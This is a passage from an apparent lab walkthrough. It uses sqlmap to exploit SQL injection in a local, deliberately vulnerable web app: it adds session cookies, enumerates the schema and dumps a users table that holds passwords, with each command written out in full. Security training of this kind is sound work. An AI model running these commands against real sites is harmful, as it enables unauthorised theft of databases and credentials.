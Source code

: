 5. We use --cookie="cookiename1=cookievalue1; cookiename2=cookievalue2" to add our cookies. When we run this, we should see a successful response and we do. This will be the base of our future enumerations.  
``sqlmap -u "http://localhost/vulnerabilities/sqli/?id=test&Submit=Submit#" --cookie="PHPSESSID=2ksruslgapb4rcm2lii2l0u193; security=low"``

<img src="images/Screen Shot 2022-01-22 at 8.06.53 PM.png" alt="sqlmap response2" width="400px"/>

6. Now that we have our base attack we can tell sqlmap what we want to recall. We can use --schema to pull all the tables and their columns. One of particular interest "users" with the field "password"  
``sqlmap -u "http://localhost/vulnerabilities/sqli/?id=test&Submit=Submit#" --cookie="PHPSESSID=2ksruslgapb4rcm2lii2l0u193; security=low" --schema``



### Collect Passwords and start breaking

1. Now that we have identified a table with sensitive information we can attack that information. We can do that with --dump -T users. The -T is to identify the table we wish to dump.  
``sqlmap -u "http://localhost/vulnerabilities/sqli/?id=test&Submit=Submit#" --cookie="PHPSESSID=2ksruslgapb4rcm2lii2l0u193; security=low" --dump -T users``
